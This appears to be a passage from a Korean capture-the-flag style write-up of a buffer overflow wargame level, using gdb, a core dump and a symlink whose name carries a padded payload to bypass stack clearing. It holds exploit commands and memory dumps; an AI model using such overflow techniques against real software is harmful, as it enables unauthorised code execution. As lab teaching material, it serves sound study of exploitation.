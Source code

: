  환경변수가 초기화 되기 전 환경변수 영역의 값들이다. 

```
(gdb) b*main+368
Breakpoint 2 at 0x8048670
(gdb) c
Continuing.
옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜옜

Breakpoint 2, 0x8048670 in main ()
(gdb) x/50s 0xbffffddf
0xbffffddf:      ""
0xbffffdf6:      ""
============================(생략)===========================
0xbfffffa2:      ""
0xbfffffe5:      "/home/vampire/akeleton"
```

main 함수가 끝나기 직전 환경변수 영역이다.

비교해 보면 실행파일의 이름을 저장하는 영역인 `0xbfffffe5` 환경변수 영역은 초기화 되지 않았음을 확인 할 수 있다. 따라서 argv[0]의 영역이 아닌 이부분을 이용하여 심볼릭링크를 활용하면 될것 같다.



먼저, 공격에 사용될 payload와 똑같은 길이로 심볼릭 링크를 생성한 후, core 덤프를 확인하여 실제 주소를 확인하자.

```
[vampire@localhost vampire]$ ln -s akeleton `python -c 'print "A"*50+"S"*48+"A"*32'`
[vampire@localhost vampire]$ ./`python -c 'print "A"*50+"S"*48+"A"*32'` `python -c 'print "\x90"*44+"\xbf\xbf\xbf\xb f"'`
릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱릱옜옜
Segmentation fault (core dumped)
```

> 스택 최상단부라 그런지 심볼릭 링크 만들때 Shell Code 뒷부분에 NOP Code를 안넣으니 실제 exploit 할 때 계속 segment fault가 떳다. 때문에 Shell Code 뒤에 충분한 공간을 만들어준다.

```
[vampire@localhost vampire]$ gdb -q -c core
Core was generated by `                                                                              '.
Program terminated with signal 11, Segmentation fault.
#0  0xbfbfbfbf in ?? ()
(gdb) x/100x $esp
=================================(생략)=====================================
0xbfffff70:     0x00000000      0x2e000000      0x4141412f      0x41414141
0xbfffff80:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffff90:     0x41414141      0x41414141      0x41414141      0x41414141
0xbfffffa0:     0x41414141      0x41414141      0x53414141      0x53535353
0xbfffffb0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbfffffc0:     0x53535353      0x53535353      0x53535353      0x53535353
0xbfffffd0:     0x53535353      0x53535353      0x41535353      0x41414141
0xbfffffe0:     0x41414141      0x41414141      0x41414141      0x41414141
0xbffffff0:     0x41414141      0x41414141      0x00414141      0x00000000
0xc0000000:     Cannot access memory at address 0xc0000000
```
